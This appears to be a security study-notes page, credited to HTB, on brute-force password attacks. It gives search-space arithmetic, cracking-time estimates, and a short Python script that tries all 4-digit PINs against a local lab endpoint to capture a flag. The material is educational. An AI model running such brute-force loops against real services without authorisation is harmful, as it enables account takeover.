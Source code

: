 # Brute Force Attacks

**Understanding Brute Force Attacks:**

* Brute force attacks involve systematically trying all possible combinations to crack passwords.
* The total number of combinations can be calculated using the formula:
  * **Possible Combinations = Character Set Size^Password Length**

**Example Calculations:**

* **6-character password (lowercase letters):**
  * 26^6 ≈ 300 million combinations.
* **8-character password (lowercase letters):**
  * 26^8 ≈ 200 billion combinations.
* **8-character password (lowercase + uppercase):**
  * 52^8 ≈ 53 trillion combinations.
* **12-character password (lowercase, uppercase, numbers, symbols):**
  * 94^12 ≈ 475 quintillion combinations.

**Key Takeaways:**

* Increasing password length or complexity (adding character types) exponentially increases the search space, making brute-force attacks more difficult.
* The attacker's computational power significantly affects the time required to crack a password. More powerful hardware can attempt more guesses per second.

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption><p>Credits to HTB</p></figcaption></figure>

**Cracking Time Comparison:**

* **Basic Computer (1 million passwords/second):**
  * Cracking an 8-character alphanumeric password could take \~6.92 years.
* **Supercomputer (1 trillion passwords/second):**
  * Even with this power, cracking a complex 12-character password could take \~15,000 years.

**Practical Example: Cracking a 4-Digit PIN**

* A simple demonstration involves brute-forcing a 4-digit PIN (0000 to 9999) using a Python script.
* The script sends requests to a server endpoint, checking each PIN until the correct one is found.

**Python Script Overview:**

```python
pythonCopy Codeimport requests

ip = "127.0.0.1"  # Target system IP
port = 1234       # Target system port

# Brute-force all 4-digit PINs
for pin in range(10000):
    formatted_pin = f"{pin:04d}"
    response = requests.get(f"http://{ip}:{port}/pin?pin={formatted_pin}")

    if response.ok and 'flag' in response.json():
        print(f"Correct PIN found: {formatted_pin}")
        print(f"Flag: {response.json()['flag']}")
        break
```

* The script iterates through all possible PINs, checking responses to find the correct one and capture the associated flag.

**Conclusion:**

* Brute force attacks highlight the importance of strong, complex passwords and the need for robust security measures to protect against such vulnerabilities.

